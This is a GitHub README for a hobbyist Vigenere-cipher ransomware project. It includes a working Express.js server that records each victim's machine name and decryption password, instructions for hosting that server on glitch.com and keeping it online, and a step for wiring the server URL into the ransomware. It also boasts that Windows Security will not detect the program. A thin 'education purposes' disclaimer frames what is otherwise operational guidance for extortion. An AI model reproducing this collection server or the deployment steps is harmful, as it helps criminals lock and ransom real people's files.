 # REVENGE RANSOMEWARE
a vigenere encrypt ransomeware created by me :p, for education purpose.
**MAKE SURE TO STAR THE REPOSITORY :)**

# Used Algorithm
- Vigenere (which is strong algorithm)

# DISCLAIMER
i didnt try this fully, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also **i created this only for education purposes**,
also windows security **wont** detect this ransomeware :) 

# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) to create projects to get the decrypt password, if you want fresh project [clickhere](https://glitch.com/edit/#!/remix/revenge-ransome), but make sure to make the project 24/7 by using service like [UptimerBot](https://uptimerobot.com/) or the victim won't be able to decrypt his files.
<br>You need to modify the host string Form1: `string host = "website url, glitch can be used, express app example in readme";` this part and put the url exemple: `https://nameofyourproject.glitch.me`<br>


# Detection
31/72
[Virustotal Scan Result](https://www.virustotal.com/gui/file/b74d62a432a9011e2d2c8cf16790a21bd0253ba5d5df09c08e993020985ddc1c/detection)

![virustotal](https://g.top4top.io/p_1614y4m991.png)


# Change Log:
- Now includes the decryption software :) 


![decryptsoftware](https://i.top4top.io/p_1604d9ahl1.png)



- Now supports encrypting folders.
